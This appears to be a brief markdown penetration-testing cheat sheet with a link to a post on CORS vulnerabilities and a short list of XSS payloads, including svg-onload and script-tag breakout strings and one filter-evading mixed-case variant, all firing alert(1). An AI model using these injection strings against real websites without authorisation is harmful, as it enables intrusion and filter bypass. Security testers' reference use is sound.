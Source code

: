 
<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [CORS](#cors)
- [XSS](#xss)
  - [Base Payload](#base-payload)
  - [Advance Payload](#advance-payload)

<!-- /code_chunk_output -->


## CORS
[CORS跨域资源共享漏洞](https://kylin.moe/p/cors%E8%B7%A8%E5%9F%9F%E8%B5%84%E6%BA%90%E5%85%B1%E4%BA%AB%E6%BC%8F%E6%B4%9E/)

## XSS

### Base Payload

```
<svg/onload=alert(1)>
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

### Advance Payload

```
<svg+svg+svg\/\/On+OnLoAd=alert(1)>
```

